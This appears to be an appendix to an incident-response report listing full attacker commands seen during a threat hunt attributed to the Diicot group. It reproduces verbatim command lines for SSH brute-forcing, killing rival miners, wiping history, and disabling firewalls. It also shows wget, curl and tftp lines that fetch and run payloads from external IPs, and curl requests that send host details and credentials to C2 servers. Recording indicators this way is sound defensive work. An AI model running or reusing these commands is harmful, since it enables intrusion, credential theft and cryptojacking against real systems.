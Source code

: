 # Observed Commands

This document contains full versions of commands observed during the post-incident analysis.  
Each command is linked from the findings sections for clarity and deeper technical context.

---

# 📂 Initial Threat Hunt Observations

---

## 🧩 .bisis SSH Brute-Force Command
(id: `bisis-ssh-brute-force-command`)

```bash
/var/tmp/.update-logs/./.bisis ssh -o /var/tmp/.update-logs/data.json --userauth none --timeout 8
```

**Description:**  
Hidden binary `.bisis` executing SSH brute-force attempts against target systems.  
Uses a timeout of 8 seconds per connection attempt and references an external configuration file (`data.json`).

---

## 🧩 .bisis Repeated Execution Command
(id: `bisis-repeated-execution-command`)

```bash
bash -c "cd /var/tmp/.update-logs ; chmod +x /var/tmp/.update-logs/.bisis ; ulimit -n 999999 ; cat iplist | ./bisis -f 20 -t 8 -T 20 -S 10 -p 22 -l root -o /var/tmp/.update-logs/.history -O /var/tmp/.update-logs/.history -i eth0 -d /var/tmp/.update-logs/iplist2 ; ./x"
```

**Description:**  
Launches `.bisis` with customized parameters (threads, timeout, SSH port, username) and starts a second payload (`x`) after brute-forcing.

---

## 🧩 ./network Multi-Stage Crypto Mining Script
(id: `network-multistage-script`)

```bash
./network "rm -rf /var/tmp/Documents ; mkdir /var/tmp/Documents 2>&1 ; crontab -r ; chattr -iae ~/.ssh/authorized_keys >/dev/null 2>&1 ; cd /var/tmp ; chattr -iae /var/tmp/Documents/.diicot ; pkill Opera ; pkill cnrig ; pkill java ; killall java ; pkill xmrig ; killall cnrig ; killall xmrig ; cd /var/tmp/; mv /var/tmp/diicot /var/tmp/Documents/.diicot ; mv /var/tmp/kuak /var/tmp/Documents/kuak ; cd /var/tmp/Documents ; chmod +x .* ; /var/tmp/Documents/.diicot >/dev/null 2>&1 & disown ; history -c ; rm -rf .bash_history ~/.bash_history ; rm -rf /tmp/cache ; cd /tmp/ ; wget -q 85.31.47.99/.NzJjOTYwxx5/.balu || curl -O -s -L 85.31.47.99/.NzJjOTYwxx5/.balu ; mv .balu cache ; chmod +x cache ; ./cache >/dev/null 2>&1 & disown ; history -c ; rm -rf .bash_history ~/.bash_history"
```

**Description:**  
Complex script to eliminate competition, hide traces, deploy mining payloads, and set persistence through hidden directories.

---

## 🧩 ./retea Credential Harvester and Payload Dropper
(id: `retea-credential-dropper`)

```bash
./retea KOFVwMxV7k7XjP7fwXPY6Cmp16vf8EnL54650LjYb6WYBtuSs3Zd1Ncr3SrpvnAU Haceru
```

**Description:**  
Malicious script associated with the Diicot group; collects system info, builds credential dictionaries, wipes traces, downloads and executes secondary payloads.

---

## 🧩 ./UpzBUBnv Suspicious Binary Execution
(id: `upzbubnv-execution`)

```bash
./UpzBUBnv
```

**Description:**  
Hidden binary executed post-SSH connection; suspected malware based on behavior and association with SSH brute-force processes.

---

## 🧩 ./cache Crypto Miner Execution
(id: `cache-miner-execution`)

```bash
./cache
```

**Description:**  
Executable dropped from remote source, tied to crypto mining operations in the compromised network.

---

# 📂 MDE Dashboard Review Observations

---

## 🧩 curl Silent Data Exfiltration to C2
(id: `curl-silent-c2`)

```bash
curl --silent http://196.251.73.38:47/save-data?IP=45.64.186.20 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" -H "Accept-Language: en-US,en;q=0.9" -H "Cache-Control: max-age=0" -H "Connection: keep-alive" -H "Upgrade-Insecure-Requests: 1" --insecure
```

**Description:**  
Sends infected system's IP address to remote C2 server silently; uses browser headers to evade basic detection.

---

## 🧩 curl Downloading Malicious Payload (Black3)
(id: `curl-black3-download`)

```bash
curl -s --connect-timeout 15 digital.digitaldatainsights.org/.x/black3
```

**Description:**  
Silent download of suspected malicious payload (.x/black3) from known-malicious domain associated with Diicot group activity.

---

## 🧩 bash-based Firewall Disabling and Malware Loader
(id: `bash-firewall-disable-loader`)

```bash
bash -c "pkill firewalld -9; pkill iptables -9; ulimit -e 999999; ulimit -u 999999; ulimit -n 999999; cd /tmp || cd /run || cd /; rm -rf logsbins.sh; wget http://194.32.145.243/logsbins.sh; chmod 777 logsbins.sh; sh logsbins.sh; curl -o logsbins.sh http://194.32.145.243/logsbins.sh; chmod 777 logsbins.sh; sh logsbins.sh; tftp 194.32.145.243 -c get logstftp1.sh; chmod 777 logstftp1.sh; sh logstftp1.sh; tftp -r logstftp2.sh -g 194.32.145.243; chmod 777 logstftp2.sh; sh logstftp2.sh; rm -rf logsbins.sh logstftp1.sh logstftp2.sh; rm -rf *; cd; rm -rf .bash_history; history -c"
```

**Description:**  
Full disablement of firewall protections, retrieval and execution of multiple payloads, heavy use of log wiping to cover tracks.

---

## 🧩 curl Credential and System Info Exfiltration
(id: `curl-credential-exfil`)

```bash
curl --silent "http://87.120.116.35:8000/save-data?IP=54.177.195.166&USER=user1&PASS=*****&PORT=22&CPUS=4&HOSTN=awk: command not found &ARCHN=awk: command not found &KERN=awk: command not found &GPU=No" -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" -H "Accept-Language: en-US,en;q=0.9" -H "Cache-Control: max-age=0" -H "Connection: keep-alive" -H "Upgrade-Insecure-Requests: 1" --insecure
```

**Description:**  
Exfiltrates host metadata, usernames, credentials, and hardware details to remote malicious server over insecure connection.

---

# 📜 Notes

- Commands above were collected from both manual threat hunting and MDE incident dashboard review.
- Diicot threat group indicators dominate most stages of the attack lifecycle.
- Each script or command had a distinct role: reconnaissance, brute-force, persistence, cryptomining, or exfiltration.


